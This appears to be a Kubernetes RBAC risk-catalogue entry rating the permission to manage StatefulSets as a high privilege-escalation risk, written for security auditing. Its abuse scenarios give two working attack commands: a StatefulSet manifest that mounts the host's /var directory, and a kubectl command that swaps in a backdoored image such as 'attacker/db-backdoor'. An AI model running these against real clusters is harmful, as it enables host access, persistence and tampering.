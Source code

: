 ```yaml
---
id: 1038
title: "Manage StatefulSets in a namespace"
description: "Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1038                                                                                                                         |
| Name          | Manage StatefulSets in a namespace                                                                                           |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | apps                                                                                                                         |
| Resources     | statefulsets                                                                                                                 |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new StatefulSet with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: hostpath-statefulset
spec:
  serviceName: "hostpath-service"
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-sts
  template:
    metadata:
      labels:
        app: hostpath-sts
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-var
          name: host-var
      volumes:
      - name: host-var
        hostPath:
          path: /var
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing StatefulSet's image to a malicious one.

```bash
kubectl set image statefulset/<statefulset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image statefulset/my-app-db db=attacker/db-backdoor -n production

```
